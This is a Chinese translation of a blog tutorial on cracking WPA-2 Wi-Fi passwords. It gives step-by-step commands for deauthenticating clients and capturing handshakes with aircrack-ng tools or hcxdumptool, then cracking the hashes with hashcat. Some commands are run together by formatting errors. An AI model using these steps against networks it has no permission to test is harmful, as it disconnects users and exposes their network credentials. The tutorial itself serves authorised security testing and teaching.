





# 无线渗透测试(WPA-2 破解)

> 原文：<https://infosecwriteups.com/wireless-penetration-testing-wpa-2-cracking-9c925e51a873?source=collection_archive---------0----------------------->

在本文中，我将讨论无线渗透测试和破解 WPA-2 保护的 Wifi。我将谈论我们可以用来测试 WPA-2 网络的两种不同的方法。所以，我们进入正题:)

> **注意:**本文仅用于教育目的。你必须只在你合法拥有的或者你有许可测试的网络上进行测试。


由[米沙·费舍切克](https://unsplash.com/@extaf_ms?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

有两种方法，我们可以使用，一个是捕获全程握手，第二个是通过使用 hcxdumptool。一旦我们得到了散列文件或握手文件，我们就可以使文件离线并破解散列。所以基本上，我们将通过两种方式获得散列文件，然后我们需要使用 Hashcat 来破解散列。

*先决条件:*

1.  Wifi 适配器(支持监控模式)。
2.  一台 Linux 机器。
3.  airmon-ng、airodump-ng、aircrack-ng(用于方法 1)
4.  hcxdumptool 和 hcxtools(用于方法 2)
5.  哈希卡特
6.  您有权测试的 Wifi 网络。

# 1.捕获全程握手(airodump-ng)

我知道这种破解 wifi 密码的老方法，但它仍然工作得很好。在这个方法中，我们将通过向网络上的用户发送 de-auth 信号来捕获一次完全的握手。

通过输入以下命令安装所需的软件

```
sudo apt install aircrack-ng
```

首先让网络接口进入监控模式。键入以下命令启动监控模式。

```
iwconfigsudo airmon-ng check killsudo airmon-ng start wlp8s0
```

这里，wlp8s0 是我的网络接口。

键入 iwconfig，确保监控模式已启动。



现在，我们可以使用 airodump-ng 来列出所有的 wifi 网络

```
sudo airodump-ng wlp8s0mon
```


它将显示网络 BSSID 和网络的信道(CH)细节。

复制目标 Wifi BSSID 和 CH。

现在，使用下面的命令开始转储一个完全握手

```
sudo airodump-ng -c 6 --bssid A6:0C:ID:ID:ID:ID -w filename wlp8s0mon
```



它开始监听握手。我们可以看到连接到目标网络的设备。为了捕获全程握手，我们需要向目标网络上的用户发送一个 de-auth 信号。要发送解除授权信号，请打开一个新的终端选项卡，并使用以下命令。

```
sudo aireplay-ng -0 1 -a WIFI:BSSID -c DEVICE:BSSID wlp8s0mon
```

一旦身份验证完成，返回到先前的终端。您可以看到 WPA 握手被捕获。现在，您可以按 ctrl+c 来停止该过程。



现在，我们有了 filename.cap 文件。我们可以使用 aircrack-ng 来破解密码，也可以将 filename.cap 转换为 hash.hc22000，然后使用 hashcat 来破解哈希。

*   要使用 aircrack-ng 破解，请使用以下命令。

```
aircrack-ng -w rockyou.txt -b BSSID filename.cap
```


*   要转换。使用下面的网站。

> [https://hashcat.net/cap2hashcat/](https://hashcat.net/cap2hashcat/)



在网站上传 filename.cap，可以下载转换后的 hash.hc22000 文件。

# 2.使用 hcxdumptool

这种方法简单易行，并且不需要向网络上的用户发送去授权信号。

从以下链接安装 hcxdumptool 和 hcxtools:

> [https://github.com/ZerBea/hcxdumptool](https://github.com/ZerBea/hcxdumptool)
> 
> https://github.com/ZerBea/hcxtools

一旦安装了所需的软件，请按照流程操作。

首先，使用以下命令停止网络管理器和 Wpa 请求程序。

```
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

然后，启动 hcxdumptool 来转储 pcapng 文件。

```
sudo hcxdumptool -i wlp8s0 -o dumpfile.pcapng --active_beacon --enable_status=15
```



一旦开始，我们可以等待一些捕获足够的数据包。然后，用 ctrl+c 停止这个过程。

现在，我们的机器中有了 dumpfile.pcapng 文件。通过以下命令启动网络管理器和 wpa 恳求者服务。

```
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

接下来，我们必须转换。pcapng 文件转换为可破解的. hc22000 文件。为此，请使用以下命令。

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

现在，我们有了 hash.hc22000 文件，可以使用 hashcat 来破解它。

# 3.开裂哈希卡

从 https://hashcat.net/hashcat[下载 hashcat 的最新版本](https://hashcat.net/hashcat/)

*   使用 hashcat 的字典攻击(wordlist)。

```
hashcat -m 22000 hash.hc22000 rockyou.txt
```

*   使用 hashcat 的暴力。

```
hahscat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

以上命令用于暴力破解一个 8 位数的密码。

```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d?d?d
```

您还可以形成一个 10 位数字的密码模式，并以 9 开头。

```
hashcat -m 22000 hash.hc22000 -a 3 9?d?d?d?d?d?d?d?d?d
```

要制作自己的面具图案，请参考以下来自 hashcat 的指南。

> [https://hashcat.net/wiki/doku.php?id=mask_attack](https://hashcat.net/wiki/doku.php?id=mask_attack)

感谢您阅读我的文章。希望这对你有用。

如果你喜欢这篇文章，请分享并关注我更多有趣的文章:)